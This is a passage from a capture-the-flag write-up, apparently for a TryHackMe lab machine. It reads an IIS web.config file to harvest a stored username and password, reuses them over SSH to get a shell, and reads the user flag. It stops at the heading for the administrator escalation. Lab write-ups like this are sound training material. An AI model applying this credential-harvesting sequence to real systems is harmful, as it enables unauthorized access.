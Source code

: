 ```console
                    <virtualDirectory path="/" physicalPath="C:\inetpub\ftproot" />
                </application>
                <bindings>
                    <binding protocol="ftp" bindingInformation="*:21:" />
                </bindings>
                <ftpServer>
                    <security>
                        <ssl controlChannelPolicy="SslAllow" dataChannelPolicy="SslAllow" />
                    </security>
                </ftpServer>
            </site>
...
</configuration>
```

Now that we know the path of the web server, we can try to read the `web.config` file.

Inside the `web.config`, we find a set of credentials.

```console
file > /inetpub/wwwroot/hacksmartersec/web.config
Reading contents of /inetpub/wwwroot/hacksmartersec/web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="[REDACTED]" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>
```
Using the found credentials for `SSH`, we get a shell and can read the user flag.

```console
$ ssh tyler@10.10.144.158

Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

tyler@HACKSMARTERSEC C:\Users\tyler>whoami
hacksmartersec\tyler

tyler@HACKSMARTERSEC C:\Users\tyler>type Desktop\user.txt
THM[REDACTED]
```

## Shell as Administrator
